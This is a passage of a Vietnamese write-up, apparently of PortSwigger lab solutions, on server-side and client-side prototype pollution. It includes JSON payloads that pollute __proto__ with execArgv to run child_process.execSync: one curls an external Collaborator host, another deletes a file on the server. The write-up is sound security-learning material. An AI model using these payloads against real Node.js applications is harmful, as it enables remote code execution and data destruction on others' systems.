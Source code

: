 >Đăng nhập vào `wiener`, ta được cấp quyền vào trang admin:
>![image](https://hackmd.io/_uploads/HygGE0jvC.png)

>Xem lại request tới endpoint `/admin/jobs`:
>![image](https://hackmd.io/_uploads/BJLNEAswA.png)

>Thử inject 1 thuộc tính `json spaces` bằng `__proto__`:
>![image](https://hackmd.io/_uploads/rkH4rCjw0.png)

>Trang admin tồn tại 1 nút để admin ấn vào thì dọn dẹp file và DB:
>![image](https://hackmd.io/_uploads/B1jLSCoD0.png)

>Đây là 1 chức năng kinh điển cho việc tạo ra các tiến trình con, như đã nói ở lí thuyết, nó có khả năng bị lợi dụng để RCE. Ta sẽ đi thăm dò nghi ngờ này bằng cách dùng Collab, payload:
```json 
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```
>![image](https://hackmd.io/_uploads/SkhlwCovR.png)

>Quay lại và sử dụng chức năng ta thấy thông báo hiển thị Failed:
>![image](https://hackmd.io/_uploads/ryVGPAov0.png)

>Và ở phía Collab đã có những request gửi tới, chứng tỏ ta có thể thực hiện RCE web này:
>![image](https://hackmd.io/_uploads/HJtEvRoDR.png)

>Thay đổi payload để xóa file mà đề bài yêu cầu:
```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

>Send request:
>![image](https://hackmd.io/_uploads/Sy29v0iPR.png)

>Sử dụng lại chức năng clear data và hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/r1_nv0iwC.png)

### **9. Lab: Exfiltrating sensitive data via server-side prototype pollution**
>![image](https://hackmd.io/_uploads/BkGAKRswA.png)

>Solved bài lab:
![image](https://hackmd.io/_uploads/SJE6tRivR.png)

### **10. Lab: Client-side prototype pollution via browser APIs**
>![image](https://hackmd.io/_uploads/Skr39RivC.png)

>Sử dụng công cụ DOM Invader để scan và phát hiện 1 `source` có thể khai thác:
>![image](https://hackmd.io/_uploads/HyL7j0jPC.png)
